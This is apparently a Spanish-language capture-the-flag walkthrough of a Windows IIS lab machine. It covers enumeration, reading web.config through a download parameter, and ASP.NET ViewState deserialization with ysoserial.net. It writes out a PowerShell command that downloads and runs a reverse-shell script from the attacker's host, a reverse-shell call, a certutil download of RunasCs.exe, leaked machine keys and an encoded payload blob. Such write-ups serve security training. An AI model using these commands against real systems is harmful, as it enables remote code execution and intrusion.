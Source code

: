 ### Ping
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240310205202.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240310205503.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240310210838.png]]

### Web dev.pov.htb

![[Pasted image 20240311105847.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240310212727.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240311105353.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240311110529.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240311110955.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240311110845.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240311111432.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240311105747.png]]

### xml

![[Pasted image 20240311112314.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada.

### Import-Clixml 
con import-clixml podemos extraer los datos de ese archivo xml
![[Pasted image 20240311175136.png]]

### Servidor con python 
ahora vamos a descargar RunasCs.exe, psgetsys.ps1 y EnableAllTokenPrivs.ps1
estaremos compartiendo todos estos archivos en nuestro servidor para poder subirlos a la maquina victima
![[Pasted image 20240311181743.png]]

### certutil.exe
usaremos la herramienta certutil para poder descargar los archivos a la maquina victima
```python
certutil.exe -urlcache -split -f "http://10.10.14.64/RunasCs.exe" ".\RunasCs.exe"
```
![[Pasted image 20240311182044.png]]

### RunasCs.exe
ejecutamos RunasCs con las credenciales que hemos conseguido llamamos una cmd.exe en nuestra dirección IP y el puerto
![[Pasted image 20240311182556.png]]

### rlwrap 
hemos conseguido una nueva conexión con las credenciales de alaading
![[Pasted image 20240311183935.png]]

### Escalada de privilegios
podemos ver que el privilegio "SeDebugPrivilege" ha sido deshabilitado
![[Pasted image 20240311184829.png]]



R0joNK0xfsrbj6hXJWsdR/Aunc4iwYQieYABw5V7xxaSmzHkgHGwy8/AWpbhGk%2btq7aHLsakG6Kx9X2YOZxoalUFpgLGQI0SMMt7REc9UhPTx7RwQYJ5F%2bG%2bPIrF4an95Wm4TzN1afxXl21Ks6gAr7aksLZLuM%2bqQmqWIYlRcmt7qepwSKsTQIXeij0Z3yvleKl0akkk11hY5u0Fd5iyhs1gSYksM2ad6klvG45l0KrdWndWl1yrV1OtImsSOpytC9UMkjYt3LCauyIVH3YmFFXFgFekDZpIO3UsNHxvNa/P69N24/V6jW4/H1BPh63/itiV72Z1QchzB5O4m2gwZt%2bmLZ2jkO%2b3nZRJvjYVk6S5B4VT/ava6Fk/n9UpbEym4nDri9O4QIYKnnNVyYrAkXHnKy4yKqtUBvsOqhIJjJ1VxT/SUGMMYi%2bEM/IhRiLUnUUjxgdPwXlpD2tXiZ4N6khYWNVAF6LqWv3uU3lmIFHx62PC7mR4NU5HXrl3t0Nc%2b/9%2bNIv2GpKzmt7dGO/hylmavRws7K4FOUEcgdZIqwkL3uUBpnMjR64ZB2aJMwtS4e4Y9W2NmH8Kn91cso7ZF523BHvgKANoK9crhHQnskUhQwEsmhb1FZnGs6V/1vfHUb29IJf44nPFJiGq2JFAl9%2bok1L33RUcQISatYQ5vFYRztgtePj57VsHcfS7462S6owQeflANXz5rYigDmN6zImGfsxQRbG3VoJV%2bS6V6/9xrLUaNzrgI5HmlQY3AGBANhwVD71BffEd8aHVTNaNrV4WLs6IoqZ5P/HBRMt20/TjAK07j6ri%2bUYrftMnbJXlxJAjHKOO7PXhHG2unVQb4TDDxvf9DUg/y6k5WQhr9X9iS2fEU5C8HQ97qbDezYwXNe2v0D3Bw%2bMSikiaQjpBypzQP1AtHwOB0H3H59fpYth5KYsWhVG1oACZDuhcwt6e6%2b8cfszTs7NuvBXqzcjPFWZKypB6xAFp47MFe62KaHLhUHAW1eK78ao/yz2jobzW2KUSWEERFfbHZJFmhjPBopkpjHXqnYUIW691RnZuUQpwVYqfTqGbXTNYfG2Q46hYCsLLES%2bL36EVj0PSq1etuAFFP/PWL05YndONUON5ZiyoP/laheq4VDVbKNwZ9EbQuBKhTCXnex463y6ROeY7tYuEDL4lVrQXgxaJ9I%2bikuZJZBze8TUf3Tq0PAUa9kHCxnnJOzb/dPBjHNVQSGo8NmS2Fwa8mJRLHWrjDVYDuje7Zr3A%2bLnldFnSrDRK2qY%2bJnslZGTtL2ZduI83eBGN2nWJxQ2z4FEjq5J8Ux3a3oJ1%2bmMUs3trMQLV8uZSv2Bfc4z2YG2SKpg615CcmGs9AaoCvzdDCnVu0fUkSCeeI94q9cpGmb2XGg%2bUbqVrGwp7gYYu2A%3d%3d